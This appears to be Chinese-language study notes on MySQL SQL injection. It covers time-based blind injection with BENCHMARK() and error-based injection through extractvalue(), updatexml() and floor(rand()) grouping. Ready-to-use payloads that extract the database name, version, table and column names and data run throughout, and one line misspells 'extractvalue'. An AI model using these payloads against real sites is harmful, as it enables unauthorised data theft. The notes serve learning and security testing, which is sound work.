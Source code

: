 #### BENCHMARK()
- `BENCHMARK(count,expr)` 重复count次执行表达式expr, 可以用于计时MySQL处理表达式的速度, 返回值为0, 仅显示时间
- 特性
	- 无论expr表达式的语句执行结果为True, False或Null, benchmark都会正常执行
	- expr表达式仅支持查询单行单列的结果, 反之则报错
	- benchmark内的语句执行失败, benchmark同样执行失败
- 选择一些耗时较长的函数如:md5(), sha()等
- payload: `if((length(database())=4),(select benchmark(10000000,md5(0x41))),1)`

---

## 报错注入
- 如果Web没有正常的错误回显, 就只能通过输入错误格式的语句(函数), 使数据库报错, 并在报错信息中加入想要获取的数据
- 使用一些指定的函数来**制造报错信息**, 获取指定信息

### xpath语法错误
#### extractvalue()
- 正常语法: `extractvalue(xml_document, Xpath_string);`
	- xml_document: xml文档对象的名称, string格式
	- Xpath_string: xpath格式的字符串, **如果不符合xpath格式, 则会报错, 并将报错结果放在报错信息中**
- 作用: 从目标xml中返回包含所查询值的字符串
- payload: `id='and (select extractvalue("anything",concat('~',(select语句))))`
	- 查库名: `(select extractvalue(1,concat('~',(select database()))))`
	- 查数据库版本: `(select extravalue(1, concat(0x7e,@@version)))`
	- 查表名: `(select extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))))`
	- 查字段名: `(select extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))))`
	- 查数据: `(select extractvalue(1,concat(0x7e,(select group_concat(COLUMN_NAME) from TABLE_NAME))))`
- 注: 
	- `0x7e` = '~'的ascii, 也可以换成'#' '$'等不满足xpath格式的字符
	- mysql中`version()`=`@@version`; `concat('a','b')`="ab"
	- extractvalue()能查询字符串**长度最大为32**, 如果结果超过32则需要使用substring()截取或使用limit分页

#### updatexml()
- 正常语法: `updatexml(xml_document, xpath_string, new_value)`
	- new_value: string格式, 替换查找到的符合条件的数据
- 作用: 改变文档中符合条件的节点的值
- payload: `id=' and (select updatexml("anything",concat('~',(select...)),"anything"))` (在extractvalue基础上多一个任意参数)
	- 查数据库版本: `(select updatexml(1,concat(0x7e,@@version),1))`

### floor() 取整函数
mysql用于取整数的函数, 返回不大于x的最大整数值
- 必要条件: 
	- `rand()`: 结果不可以作为`order by`, `group by`的条件字段
	- `count(*)`: 计算所有行数, 不忽略空值
	- `group by`: 根据字段分组
- payload: `select * from users where id=1 and (select 1 from (select count(*), concat(database(), floor(rand(0)*2)) as x from information_schema.tables group by x)a);`
- `floor(rand(0)*2)`: rand生成[0,1]的随机数, 添加因子0生成固定, floor取整, 这段函数的执行结果会为0或1
- 将需要查询的内容于0或1连接作为临时表(查询结果)的主键(group by)
- 利用mysql中groupby创建带有count()函数的临时表时, 在已经确认需要插入新主键后, rand()函数会重新计算值(可能由0变1)的特性, 构造主键重复的bug, 可以将函数执行的内容拼接成主键并报错输出
详见: [关于floor()报错注入 - FreeBuf](https://www.freebuf.com/articles/web/257881.html)
